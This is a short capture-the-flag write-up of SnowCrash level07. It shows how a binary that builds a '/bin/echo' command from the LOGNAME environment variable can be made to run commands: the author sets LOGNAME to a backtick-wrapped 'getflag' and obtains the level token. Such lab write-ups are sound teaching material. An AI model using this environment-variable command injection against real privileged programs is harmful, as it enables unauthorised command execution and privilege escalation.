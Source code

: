 ## level07

We have a binary. `ltrace` tells us that it’s using `asprintf` to write the logged user. Looking for asprintf vulnerabilities I found [this explanation](https://stackoverflow.com/questions/12746885/why-use-asprintf-instead-of-sprintf) of what it is.

With GDB I checked what it exactly does:

```bash
0xffffcbe0│+0x0000: 0xffffcbf4  →  0x0804b1a0  →  "/bin/echo level07 "	 ← $esp
0xffffcbe4│+0x0004: 0x08048688  →  "/bin/echo %s "
0xffffcbe8│+0x0008: 0xffffd2e2  →  "level07"
```

I know that `level07` is the output of `getenv(LOGNAME)`.

Does it mean that I can change that value arbitrarily?

```bash
level07@SnowCrash:~$ ./level07 
level07
level07@SnowCrash:~$ export LOGNAME=foo
level07@SnowCrash:~$ ./level07 
foo
```

Ok… but then maybe I can get echo to evaluate what I pass it with backtick `...

```bash
level07@SnowCrash:~$ export LOGNAME='`getflag`'
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

### External resources
- [_Optional_] GDB

### Key Learnings
- Arbitrary code execution by changing environment variables